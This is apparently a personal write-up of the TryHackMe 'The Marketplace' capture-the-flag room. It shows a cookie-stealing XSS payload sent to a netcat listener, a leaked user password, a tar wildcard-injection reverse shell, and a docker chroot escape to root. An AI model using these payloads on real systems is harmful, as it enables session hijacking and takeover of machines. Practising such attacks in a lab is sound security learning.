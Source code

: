 ```yaml
---

title: Walkthrough - The Marketplace
published: true
---
```


Tags: Web, XSS, Docker, SQLi.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

* * *

## Notes

- `sudo nmap -sC -sV -sT -O 10.10.144.85 -oN nmap_2 -p22,80`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp open  http    nginx 1.19.2
|_http-server-header: nginx/1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
```

- `gobuster dir -u http://10.10.144.85 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100`

```
/login                (Status: 200) [Size: 857]
/admin                (Status: 403) [Size: 392]
/images               (Status: 301) [Size: 179] [--> /images/]
/Admin                (Status: 403) [Size: 392]               
/Login                (Status: 200) [Size: 857]               
/new                  (Status: 302) [Size: 28] [--> /login]   
/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
/signup               (Status: 200) [Size: 667]                    
/messages             (Status: 302) [Size: 28] [--> /login]        
/ADMIN                (Status: 403) [Size: 392]                    
/New                  (Status: 302) [Size: 28] [--> /login]        
/NEW                  (Status: 302) [Size: 28] [--> /login]        
/Messages             (Status: 302) [Size: 28] [--> /login]        
/Signup               (Status: 200) [Size: 667]                    
/SignUp               (Status: 200) [Size: 667]                    
/LOGIN                (Status: 200) [Size: 857]                   
```

Visiting the website we have a MARKETPLACE wow.

Initially I though I could get XSS sending `<SCRIPT>alert("XSS");//\<</SCRIPT>` through the messages to myselfs created account, but the messages seemed to be parsed and turned to URL safe text. Did however get XSS "adding a new listing" with `<SCRIPT>alert("XSS");//\<</SCRIPT>` then visiting the item `http://10.10.144.85/item/4` 

![0xskar](/assets/the-marketplace01.png)

Also, visiting the pages through burpsuite we can see this is giving us a cookie. Visiting /admin it tells us that we are not authorized to view it. On the listing page there is a Report listing to admins.

Setup listening port on kali linux `nc -nvlkp 6969`

Add a new listing with this xss `<script>document.location='http://10.2.127.225:6969/XSS/grabber.php?c='+document.cookie</script>`

![0xskar](/assets/the-marketplace02.png)

We get our cookie sent through the netcat listner. 

We can then goto `http://10.10.144.5/report/3` to report the listing to the admin.

![0xskar](/assets/the-marketplace03.png)

Boom, we receive the admin cookie!

```
GET /XSS/grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NjIxNDM1ODF9.2p7iQfwFvsVpB2ESVvWMkYRzhoFsh0vN1OMIWBYUp6k 
```

Putting this into the firefox inspector lets us access the admin page.

* * * 

## Flag 1

![0xskar](/assets/the-marketplace04.png)

* * * 

## User.txt

- `sqlmap -u http://10.10.144.207/admin?user= --cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsIjI0ODgwMTl9.UNKrJC_3ISOyESabw6njQvthxzjMto0z8Oma0whOsUU -a`

my sqlmap isnt working qq i only get 403 responses...

![0xskar](/assets/the-marketplace05.png)

- `jake:@b_ENXkGYUCAv3zJ`

* * * 

## Root.txt

Now that we're loggin in as jake we run `sudo -l`

```
User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

backup.sh contains

```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

This script calls tar to create a backup file. we do not have write access to it but it is also calling to tar without using the path so if we create a file `tar` inside of backups we should be able to privesc. But this is getting us nowhere. 

After some searching I [found an article on Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). Because this tar is calling a wildcard "`*`" we can use this. An asterisk matches any number of character in a filename, including none. 

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
```

So, creating these files with no name creates files that the astrisk will call to get the tar to execute our shell we created, thus getting us a reverse shell.

```
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
rm: cannot remove '/tmp/f': No such file or directory
```

and we get a revshell to michael. 

running `id` michael has a docker id. checking gtfo bins and we get a root shell with 

- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

* * * 

